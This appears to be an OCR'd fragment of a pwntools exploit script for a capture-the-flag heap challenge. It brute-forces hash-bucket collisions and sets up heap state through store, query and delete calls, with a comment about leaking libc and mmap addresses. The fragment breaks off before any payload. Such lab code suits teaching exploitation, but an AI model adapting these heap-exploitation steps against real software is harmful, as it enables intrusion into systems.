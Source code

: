         def query(key,key_size):
            io.sendlineafter("option: ",str(2))
            io.sendlineafter("key size: ",str(key_size))
            io.sendafter("key content: ",key)
            
        def delete(key,key_size):
            io.sendlineafter("option: ",str(3))
            io.sendlineafter("key size: ",str(key_size))
            io.sendafter("key content: ",key)  


        # Brute force two-byte keys that end up in the same 'bucket'
        # of the hash table (buckets are 0 to 4095)
        START = (0x7e5)
        def brute_force_collision(desired_bucket, cur_num=START):
            options = []
            for x in range(256):
                for y in range(256):
                    cur_num = START
                    cur_num = ((x + cur_num * 0x13377331))
                    cur_num = ((y + cur_num * 0x13377331))
                    if (cur_num & 0xfff) == desired_bucket:
                        options.append((x, y))
            return options

        ## get same bucket
        collisions = brute_force_collision(255)
        print(collisions)
        usage=[]
        for each in collisions:
            usage.append(bytes(each))
        print(usage)

        #-------------- leak libc,mmap base and so on...-----------------------
        # 0x30 has 7 chunks
        store(b'a',1,b'a',1)
        store(b'b',1,b'b',1)
        #gdb.attach(io)
        for i in range(5):
            query((i+48).to_bytes(1,'little')*0x30,0x30)
        #gdb.attach(io)
        store(usage[0],len(usage[0]), b'A' * 0x30,0x30)
        #gdb.attach(io)
        store(usage[1],len(usage[1]),b'B'*0x30,0x30)
        #gdb.attach(io)
        delete(usage[0],len(usage[0]))
